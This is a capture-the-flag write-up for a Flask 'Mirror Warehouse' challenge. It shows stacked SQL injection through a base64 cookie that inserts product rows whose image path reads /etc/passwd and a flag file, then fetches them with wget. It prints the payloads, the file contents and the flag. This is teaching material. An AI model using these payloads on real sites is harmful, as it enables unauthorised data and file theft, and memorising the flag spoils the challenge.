







# Who Is That In The Mirror

## Challenge
* Category: Web Security
* Points: 300

We found a database backup from the Mirror Warehouse on the dark web. Take a look at the [database dump](https://challenge.acictf.com/static/cd1fc13f233e62ffc7e87a64ad263a58/database.sql) and see if you can compromise the Mirror Warehouse Website.
The 'dark web' is slow, dont't worry, it may take up to 60 seconds for the site to come up.

### Hints
* Sometimes [SQL injection](https://media.blackhat.com/bh-us-12/Briefings/Cutlip/BH_US_12_Cutlip_SQL_Exploitation_WP.pdf) is just the beginning of an exploit.
* The website is written in Flask (and thus python3 is installed on the server).


## Solution

### Tools
* Chrome Dev Tools
* https://www.base64decode.org/
* https://www.base64encode.org/


I fluttered about for a bit before I figured out an approach on this challenge. I was analyzing the [database dump](https://challenge.acictf.com/static/cd1fc13f233e62ffc7e87a64ad263a58/database.sql) but not very sure what to do. Then I decided to read the article referenced in the hints. Go ahead and read [the article on SQL injection](https://media.blackhat.com/bh-us-12/Briefings/Cutlip/BH_US_12_Cutlip_SQL_Exploitation_WP.pdf). I'll wait.

Ok. Now that you have read the article, let's discuss what the author did. Sure the author was performing SQL Injection on SOHO routers, but the process he employed for `Vulnerability 1` and `Vulnerability 2` are very similar to the approach we will put together for this challenge. In `Vulnerability 1`, the author found he was able to write new entries to a non-critical SQL table. The author then discovered that in `Vulnerability 2` he was able to **extract files** based on the path he wrote to a SQL table in `Vulnerability 1`.


Go ahead and click the `Start Challenge` button and generate our docker image. Go to the website and you will find a login page. Before we do anything, let's analyze the [database dump](./database.sql) and formulate an approach. There are two things that immediately catch our interest from the dump.

**First**, the sql dump contains a series of commands that generate the `users` table and then `insert` a couple entries. Going back to the challenge login page, there is a `Register` button. This means we that when we create a user, our input is written to the `users` table. Going back to the Article referenced in the hint, we may be able to write perform a SQL injection here. We will have to determine which columns we are able to inject into in a bit.
```
CREATE TABLE `users` (
  `user_id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(100) COLLATE utf8_unicode_ci NOT NULL,
  `password` varchar(100) COLLATE utf8_unicode_ci NOT NULL,
  `cookie` varchar(256) COLLATE utf8_unicode_ci DEFAULT '',
  `credit_card` varchar(100) COLLATE utf8_unicode_ci DEFAULT '',
  PRIMARY KEY (`user_id`)
) ENGINE=InnoDB AUTO_INCREMENT=24 DEFAULT CHARSET=utf8 COLLATE=utf8_unicode_ci;
```

Take a look at one of the entries that are inserted into the users table.
```
(1,'EI1QHwPV0','y1NPwVfBHJD','eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.T2pmMTdnNjlQaDV6cVFIRkpFYm5RbVhtVUpod2VwZHBtaDdwR0VhMmw1dmplM084QVJrNjdSWkw5UXpnOFNkOW40TUx3YjJWRjFFb3JzSUVGUmg5a3RHOUVhQVc1dXlWQ01HMnNGYm1OTzJZU0Q2WDFCM2l6eVRPME43N0JndFo.nc0JC1ITecH+CGkKuq+/Gx258Hb4ysOFG8/YnkEBa0M','VISA:4385-5361-2336-6093')
```
The third field (start count at 0) is the cookie. It looks like base64 encoding. Let's pop the first portion of it into https://www.base64decode.org/ and decode it. `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9` decodes to `{"typ":"JWT","alg":"HS256"}`. I went down a rabbit hole learning about [JSON Web Tokens](https://jwt.io/introduction/). I'll save you some time. It's not relevant here. What is relevant is you should browse to the challenge login page, Right-Click > Inspect. Go to the Application Tab, select Cookies on the left and you will see a field `uu` and its value
```
ZXlKMGVYQWlPaUpLVjFRaUxDSmhiR2NpT2lKSVV6STFOaUo5LmJqRmhjVnBTUmxOQ01HaEZkRVJPVFZOS2R6WnRUa1kyWkVweVNFRmpOVUUyYURCNVEwcFJlREZRUTNoVFJraDBRMDlNTTBKNFEzbG1PRFJZVEd0RmFqbGpOV0pWYjI1S01sVkhTRUpyZUhoMlVIZzFVREJxVmpWdlFqaDZkbEJDTVVnMlpVSkVRemxzTlZnNFlXVnZPRGQ0YXpCV2VEQTJUa2c0VG1oeVQxVS4yOVZjT3J3alYydS85NkNjQmlaUEQxbER0QmlLWWZ6VjBsVTJ2K3pzUjBV
```

More base64 encoding! Pop that into www.base64decode.org/ and click decode. It produced more base64 encoding! Now copy that base64 and paste it into the decode box and click decode again. Interesting, it produced the same beginning `{"typ":"JWT","alg":"HS256"}` as the cookie column in our `users` table. The `varchar(256)` for the `cookie` column in the user's table means this column can take up to 256 bytes of varying characters (ie letters, numbers, special characters). Without testing, the `cookie` column looks like a good point for SQL Injections.


The **second** interesting part of the sql dump is in the `products` table.
```
CREATE TABLE `products` (
  `product_id` int(11) NOT NULL AUTO_INCREMENT,
  `name` varchar(200) COLLATE utf8_unicode_ci DEFAULT '',
  `image` varchar(200) COLLATE utf8_unicode_ci DEFAULT '',
  `text` varchar(4096) COLLATE utf8_unicode_ci DEFAULT '',
  `price` double NOT NULL,
  PRIMARY KEY (`product_id`)
) ENGINE=InnoDB AUTO_INCREMENT=6 DEFAULT CHARSET=utf8 COLLATE=utf8_unicode_ci;
/*!40101 SET character_set_client = @saved_cs_client */;
```

The 2nd (start count at 0) column is the `image` column. The data inserted into the `image` column on the `products` table is a filepath! The first example is `static/images/moen_glenshire.jpg`.  
```
(1,'Moen Glenshire 26-Inch x 22-Inch Frameless Pivoting Bathroom Tilting Mirror','static/images/moen_glenshire.jpg','Featuring a simple yet elegant design, the Moen Glenshire Oval Tilting Mirror gives your bathroom a clean, modern look. With hardware available in chrome and brushed nickel finishes, this frameless beveled mirror pivots, letting you adjust the mirror to your preferred position. All mounting hardware and a template for installation are included. The mirror is backed by Moens Limited Lifetime Warranty.',62.87)
```

Thinking back to the article referenced in the hints, `Vulnerability 2` extracted files by controlling the file location entered in `Vulnerability 1` SQL injection. I think we have enough information to build an approach.

#### Approach
1. Test for Injection Points
2. Use SQL Injection to create a new table entry
3. Leverage the Web Application to perform arbitrary file extraction to get the flag


#### Test for Injection Points
So we have a theory that we can inject into the `uu` field of the cookie some SQL commands. Let's test this by creating a `new` entry in the `products` table that would use an image we know exists on the server `static/images/moen_glenshire.jpg`.

If you have not already done so, register a user.



Build a payload for our cookie
```
';insert into products(name,image,text,price) values ('snipe','static/images/moen_glenshire.jpg','Go track down some grid squares',5.56)#
```

Lets' break down that SQL command so you understand what we are doing. `';` is going to terminate whatever previous command was running and start our SQL command. `insert into products(name,image,text,price)` means put into the columns: `name, image, text, and price` in the `products` table our `values`. So here we are putting the following values:
```
name = snipe
image = static/images/moen_glenshire.jpg
text = Go track down some grid squares
price = 5.56
```

Pop our payload into https://www.base64encode.org/ and get the following base64 encoded "cookie"

```
JztpbnNlcnQgaW50byBwcm9kdWN0cyhuYW1lLGltYWdlLHRleHQscHJpY2UpIHZhbHVlcyAoJ3NuaXBlJywnc3RhdGljL2ltYWdlcy9tb2VuX2dsZW5zaGlyZS5qcGcnLCdHbyB0cmFjayBkb3duIHNvbWUgZ3JpZCBzcXVhcmVzJyw1LjU2KSM=
```

Now, paste that base64 encoded text into the `uu` field in your browser's Dev Tools.



Now Click on the `Products` tab, it will refresh the page.



Huzzah! We have a new product called `snipe`! We have a valid injection point.

#### Use SQL Injection to create a new table entry

This is where I struggled for a bit. I was trying to have SQL commands run a Bash shell to enumerate the directory and output the contents to files I would read in the `image` database entry. That was way overthinking the challenge. I'll save you the time and skip the failed attempts in this walkthrough. We will, however, do some fuzzing below!

First, from here on out, copy your good cookie to a scratchpad somewhere. Paste the good cookie back into the `uu` value after you pasted the payload cookie and reloaded the `Products` page. The payload cookie will continue to generate a new table entry every-time you load a page. We only need it ran once.

Ok. Let's try grabbing a simple file from the host rather than trying to get SQL to get a shell and run bash commands. Here we will attempt to grab the `/etc/passwd` file. Base64 encode the payload and paste it into the `uu` value. Then click the `Products` tab.
```
';insert into products(name,image,text,price) values ('test1','/etc/passwd','blarg',5.56)#
```

You should now see a `test1` product. Go ahead and click it.



The file our payload was supposed to grab should be in that image that did not render. I was stuck here for quite a while, but the solution was right in front of me the whole time!

Click `Purchase` and then `Buy` in the modal. Now you should see `test1` in our orders page.



Now, Right-Click the image that failed to load, and select `open in a new tab`. My web page in chrome is just a black box with nothing in the image. But grab the URL and perform a `wget` on it.

```
$ wget http://docker.acictf.com:32844/static/images/28/UiB3xwd8lj9ADpsx.jpg
--2020-05-13 21:26:35--  http://docker.acictf.com:32844/static/images/28/UiB3xwd8lj9ADpsx.jpg
Resolving docker.acictf.com (docker.acictf.com)... 15.200.73.73
Connecting to docker.acictf.com (docker.acictf.com)|15.200.73.73|:32844... connected.
HTTP request sent, awaiting response... 200 OK
Length: 982 [image/jpeg]
Saving to: ‘UiB3xwd8lj9ADpsx.jpg’

UiB3xwd8lj9ADpsx.jpg                                                            100%[=====================================================================================================================================================================================================>]     982  --.-KB/s    in 0s      

2020-05-13 21:26:46 (138 MB/s) - ‘UiB3xwd8lj9ADpsx.jpg’ saved [982/982]
```
Cool. We were able to down the file. Let's check its contents.
```
$ cat UiB3xwd8lj9ADpsx.jpg
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

Boom! We are able to perform `arbitrary file extraction` by creating a new table entry with SQL injection.

#### Leverage the Web Application to perform arbitrary file extraction to get the flag

Over the course of grabbing files from the host, I realized it would return a `404` response in the browser if the file we were attempting to grab did not exist. I was able to use this technique to "fuzz" the server because we do not know the name of the flag file.



Let's now try our technique with the following paths.
```
flag.txt
flag.jpg
flag
```
Payload for `flag.txt`

```
';insert into products(name,image,text,price) values ('test5','flag.txt','blarg',5.56)#
```
When you Right-Click > open in a new tab, we get a `404` response.

Payload for `flag.jpg`
```
';insert into products(name,image,text,price) values ('test6','flag.jpg','blarg',5.56)#
```
When you Right-Click > open in a new tab, we get a `404` response.

Payload for `flag`
```
';insert into products(name,image,text,price) values ('test7','flag','blarg',5.56)#
```

Cool. This one returned a 200 response.



Let's grab the file.
```
$ wget http://docker.acictf.com:32844/static/images/28/Q2Gz16ggmSCYlPDk.jpg
--2020-05-13 21:41:33--  http://docker.acictf.com:32844/static/images/28/Q2Gz16ggmSCYlPDk.jpg
Resolving docker.acictf.com (docker.acictf.com)... 15.200.73.73
Connecting to docker.acictf.com (docker.acictf.com)|15.200.73.73|:32844... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [image/jpeg]
Saving to: ‘Q2Gz16ggmSCYlPDk.jpg’

Q2Gz16ggmSCYlPDk.jpg                                                            100%[=====================================================================================================================================================================================================>]      33  --.-KB/s    in 0s      

2020-05-13 21:41:50 (6.48 MB/s) - ‘Q2Gz16ggmSCYlPDk.jpg’ saved [33/33]
```

Print the contents of the file to screen
```
$ cat Q2Gz16ggmSCYlPDk.jpg
ACI{5e23f297d88fe587475841d39ce}
```

Boom! There's our flag!

**ACI{5e23f297d88fe587475841d39ce}**
